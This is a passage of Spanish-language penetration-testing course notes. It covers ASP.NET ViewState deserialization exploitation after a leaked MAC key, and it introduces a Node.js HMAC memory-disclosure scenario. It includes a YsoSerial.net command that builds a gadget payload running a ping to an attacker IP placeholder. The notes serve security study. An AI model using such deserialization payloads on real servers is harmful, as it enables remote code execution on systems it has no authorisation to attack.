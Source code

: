 #### Explotación <a href="#exploitation" id="exploitation"></a>

Necesitamos el **YsoSerial.net** e implementar la lógica relacionada con MAC de la información anterior

```
ysoserial.exe -o base64 -g TypeConfuDelegate -f ObjectStateformatter -c "cmd /c ping <attacker ip>"
```

![Alt text](https://johnermac.github.io/assets/images/posts/ewptx/70.png)

> En este caso, no atacamos a las criptomonedas per se. En su lugar, aprovechamos la función SSI del servidor subyacente para filtrar la clave criptográfica

> La implementación de criptomonedas sólidas es importante, pero la protección de la clave criptográfica es igualmente importante.

### Subversión del escenario HMAC <a href="#subverting-hmac-scenario" id="subverting-hmac-scenario"></a>

Ejemplo de HMAC se puede subvertir a través de la divulgación de memoria remota en Node.js

Se proporcionará el código fuente de la aplicación vuln, para que podamos probar el ataque localmente

```
- https://en.wikipedia.org/wiki/HMAC
```

\
